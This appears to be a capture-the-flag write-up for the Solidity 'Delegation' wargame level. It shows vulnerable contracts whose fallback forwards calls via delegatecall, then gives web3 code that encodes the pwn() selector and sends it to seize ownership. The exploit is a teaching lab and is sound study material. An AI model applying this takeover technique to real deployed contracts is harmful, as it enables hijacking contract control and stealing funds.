

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

<hr />

# Hack

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Calling a function non-existant in the contract will trigger fallback and we have passed msg.data as the function selector of pwn() and it doesnot exist on the contract and it exists on the contract which it delegates call on the fallback function. We have passed the function selector only as it has no arguments otherwise we should also encode each parameters to 32 bytes and append to the function signature and pass to the data.

Function selector is actually 4 bytes of the keccak256 hashing of th function signature: web3.utils.keccak256("pwn()").slice(0,10) = "0xdd365b8b"
```
const data = web3.eth.abi.encodeFunctionSignature("pwn()")
contract.sendTransaction({from: player, to: contract.address, data: data})
```